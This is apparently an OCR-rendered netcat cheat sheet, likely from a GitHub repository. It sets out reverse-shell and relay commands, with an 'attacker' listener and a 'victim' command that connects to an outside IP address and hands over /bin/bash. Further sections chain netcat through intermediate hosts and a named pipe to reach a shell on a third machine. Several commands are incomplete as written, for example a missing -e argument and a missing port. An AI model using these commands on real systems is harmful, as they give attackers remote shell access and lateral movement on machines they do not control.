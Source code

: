 Lisntener (on attacker)

```
nc -l -p 9999 -e 
```

Client (on victim)

```
nc 38.201.128.1 9999 -e /bin/bash
```

### Relay

#### One-way: A to C

```
A 10.0.0.1 --> B 10.1.0.1 --> C 10.2.0.1
```

A

```
nc 10.1.0.1 8080
```

B

```
nc -l -p | nc 10.2.0.1 8888
```

C

```
nc -l -p 8888 -e /bin/bash
```

#### BiDirectional: A and C

```
A 10.0.0.1 <--> B 10.1.0.1 <--> C 10.2.0.1
```

A

```
nc 10.1.0.1 8080
```

B

```
mkfifo backpipe
nc -l -p 2222 < backpipe | nc 10.10.10.100 80 > backpipe
```

C

```
nc -l -p 8888 -e /bin/bash
```
